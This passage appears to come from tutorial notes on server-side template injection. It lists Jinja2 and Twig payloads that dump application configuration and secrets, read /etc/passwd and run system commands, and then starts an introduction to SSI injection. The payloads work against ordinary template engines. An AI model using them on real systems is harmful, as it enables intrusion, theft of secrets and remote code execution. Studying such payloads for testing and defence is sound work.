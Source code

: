 Dump app configuration (including secrets):

`{{ config.items() }}`

➡ Reveals secret keys, settings, etc.

List all Python built-ins:


`{{ self.__init__.__globals__.__builtins__ }}`

➡ Gives access to useful functions for further attacks.

**2. Local File Inclusion (LFI)**
   
Read /etc/passwd:

`{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}`

**3. Remote Code Execution (RCE)**

Run system commands (using os):

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`

➡ Executes id command and returns output.


# Exploiting SSTI – Twig

**1. Information Disclosure**

Get basic info about the current template with:

`{{ _self }}`

Note: This shows less info than Jinja.

**2. Local File Inclusion (LFI)**
   
Twig itself can’t directly read files, but Symfony framework adds a filter called file_excerpt:

`{{ "/etc/passwd"|file_excerpt(1,-1) }}`

This reads the `/etc/passwd` file.

**3. Remote Code Execution (RCE)**

Use PHP’s system function via Twig’s filter:

`{{ ['id'] | filter('system') }}`

Runs the id command and shows output.


# Introduction to SSI Injection


Server-Side Includes (SSI) is a technology used by web servers (like Apache, IIS) to add dynamic content to HTML pages.

SSI often shows up in files with extensions like `.shtml, .shtm, .stm`, but servers can support SSI in any file type.
